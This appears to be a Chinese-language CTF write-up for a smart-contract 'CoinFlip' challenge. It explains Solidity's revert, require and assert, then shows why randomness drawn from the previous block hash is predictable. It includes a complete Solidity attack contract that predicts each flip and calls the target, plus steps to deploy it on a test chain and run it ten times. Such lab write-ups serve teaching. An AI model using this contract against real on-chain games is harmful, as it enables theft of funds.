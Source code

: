     <br/>

    * **Revert**
    revert是solidity中的一种错误处理机制，
    而revert一旦触发，会导致当前调用中的所有更改都被还原并将错误数据传递回调用者。
    revert由两种使用形式：
      * revert ：`revert CustomError（arg1， arg2）;`该语句将自定义错误作为不带括号的直接参数
      * revert() ：`revert（）;revert（“description”）;`出于向后兼容的原因，还有一个函数，它使用括号并接受字符串

      <br/>

    * **Revert与Require与Assert**
      * Assert： 可以理解为严厉一点的判断，如果判断失败，将会burn掉你的gas
      * Require: 可以理解为温和一点的判断，就算判断失败，gas会返回给调用者
      * Revert ：revert的用法和throw很像，也会撤回所有的状态转变。但是它有两点不同：
        1.  它允许你返回一个值
        2. 它会把所有剩下的gas退回给caller

    详情参见[solidity参考文档](https://docs.soliditylang.org/en/latest/control-structures.html#revert-statement)
    <br/>

  * 漏洞分析：
    本题的漏洞就出在通过`block.blockhash(block.number - 1)`获取负一高度的区块哈希来生成随机数的方式是极易被攻击利用的。
    >原理是在区块链中，一个区块包含多个交易，我们可以先运行一下上述除法计算的过程获取结果究竟是0还是1，然后再发送对应的结果过去，区块链中块和快之前的间隔大概有10秒，手动去做会有问题，而且不能保证我们计算的合约是否和题目运算调用在同一个block上，因此需要写一个攻击合约完成调用。我们在攻击合约中调用题目中的合约，可以保证两个交易一定被打包在同一个区块上，因此它们获取的`block.number.sub(1)`是一样的。

    其实就是利用了一个区块中可能由多个交易，而我们可以自己创建一个交易，执行与题目中一样的语句后得到的`block.number.sub(1)`是一样的
    <br/>
    
    攻击合约代码如下:
  ```
  pragma solidity ^0.6.0;

  import '../SafeMath.sol';
  import './CoinFlip.sol';

  contract Attack {

    using SafeMath for uint256;
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    address adr = 0xFd288CbD59B3f74A70B10730a076Ad0b59479C56;//被攻击合约地址
    CoinFlip coin = CoinFlip(adr);

    function dosome() public returns (bool) {
      uint256 blockValue = uint256(blockhash(block.number.sub(1)));

      if (lastHash == blockValue) {
        revert();
      }

      lastHash = blockValue;
      uint256 coinFlip = blockValue.div(FACTOR);
      bool side = coinFlip == 1 ? true : false;
      coin.flip(side);
    }
   
  }
  ```
  部署成功后只需要执行10次`dosome`方法即可
  >我试过编写一个函数用一个for循环来控制`dosome()`执行的次数，最终以失败告终，应该是由于循环多了之后造成gas超过了gaslimit的上限。
  解题步骤：
  1. 将我们的攻击合约部署在测试链上
  2. 执行10次`dosome()`函数
